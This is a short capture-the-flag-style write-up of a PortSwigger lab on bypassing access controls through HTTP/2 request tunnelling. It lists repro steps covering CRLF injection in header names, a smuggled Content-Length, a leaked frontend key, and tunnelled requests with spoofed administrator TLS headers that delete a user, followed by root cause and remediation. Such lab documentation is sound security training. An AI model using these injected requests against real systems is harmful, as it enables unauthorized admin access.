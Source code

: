 
# PS‑011 — Bypassing access controls via HTTP/2 request tunnelling

**Date / Analyst:** 2025-09-30 — Christopher Araque
**Target:** PortSwigger lab (insecure role enforcement)
**Impact:** Privilege escalation via client-controlled role flag
**Status:** Solved

## Summary
CRLF injection in header names, sumggled Content-Length, discovery of X-FRONTEND-KEY, and tunneling GET /admin/delete?username=carlos.

## Repro (minimal)
- HTTP/2 request in Repeater → header‑name CRLF injection with a smuggled Content‑Length and search=x.

- Observe reflected headers revealing X-FRONTEND-KEY: 5268042407204950.

- Outer request HEAD; tunnel GET /login with:

    X-SSL-VERIFIED: 1
    X-SSL-CLIENT-CN: administrator
    X-FRONTEND-KEY: 5268042407204950


- Replace with GET /admin/delete?username=carlos:
    foo: bar

    GET /admin/delete?username=carlos HTTP/1.1
    X-SSL-VERIFIED: 1
    X-SSL-CLIENT-CN: administrator
    X-FRONTEND-KEY: 5268042407204950




## Evidence
- Screenshot: [ps-011-screenshot.png](../../evidence/ps-access/ps-011-screenshot.png)
- Request/response: [ps-011-request.txt](../../evidence/ps-access/ps-011-request.txt)

## Root cause
- Front end downgrades HTTP/2 → HTTP/1.1 and doesn’t sanitize header names, enabling request tunnelling.
- Back end trusts front‑end injected auth headers (X-SSL-*, X-FRONTEND-KEY) to make access decisions.

## Remediation
- Validate/normalize header names.
- Don’t trust client‑controlled auth headers; mint auth server‑side (mTLS between tiers or signed tokens).
- Avoid unsafe H2→H1 downgrading; keep H2 end‑to‑end or use a strict translation that never forwards raw header bytes.
- Unified length handling; add anomaly detection for tunnelling patterns.

## References
- OWASP Top 10 A01: Broken Access Control
- Request Smuggling / HTTP/2 Request Tunnelling (PortSwigger labs & write‑ups)
